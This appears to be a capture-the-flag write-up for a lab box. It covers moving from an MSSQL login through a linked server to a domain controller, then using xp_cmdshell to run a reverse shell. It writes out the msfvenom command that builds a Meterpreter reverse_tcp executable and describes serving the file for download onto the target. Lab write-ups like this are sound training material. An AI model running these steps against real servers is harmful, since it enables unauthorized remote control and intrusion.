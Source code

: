 We have succesfully logged into the `mssql` server as john.w! the querys for mssql are a  little different then what we are used to. Same language, different accent as we may say.

After a bit of guessing work and knowing that `name` is one of the most common names for a column with names, we dig around.

Not being too familiar with `mssql`, I straight up fire away `select` commands to see if I can grab something usefull. Eventually I struck something, a server that ends with ext.

`SELECT name FROM sys.servers`

![dc02](docs/9.png)

Running `help` gives us the next clue. It shows us the commands that we can perform. We see that we can link to another server using `use_link`.

`use_link "DC02.darkzero.ext"`

![link](docs/11.png)

Now we hopped on `DC02`. Enumerating dc02 we found nothing very usefull. Nothing crazy that we can use, but looking back at the help menu we see that we can use `cmd` using the `xp_cmdshell` command. Using this command we can directly execute `cmd` and even perform something like a `reverse shell` into the host of the server.

---

## 💥 EXPLOIT

We know enough information to try to create a `reverse shell` with `msfvenom` and send it over to the host as `dc02` with as listener being on `msfconsole`. The shell will be generated as a executable `.exe` so we can run it from `dc02` with `xp_cmdshell` so it will be triggerd.

We will generate our .exe through `msfvenom`. I chose `lhost` to be `tun0` so it will always be set to my ip, and `lport` to 4444 but you can always change it to your prefered port.

Generated a Meterpreter payload:

`msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=tun0 LPORT=4444 -f exe -o meterp_x64_tcp.exe`

with the .exe being generated, set up a python http server where the file is stored! If you set it up where the file isn't reachable we can not curl it into the mssql.
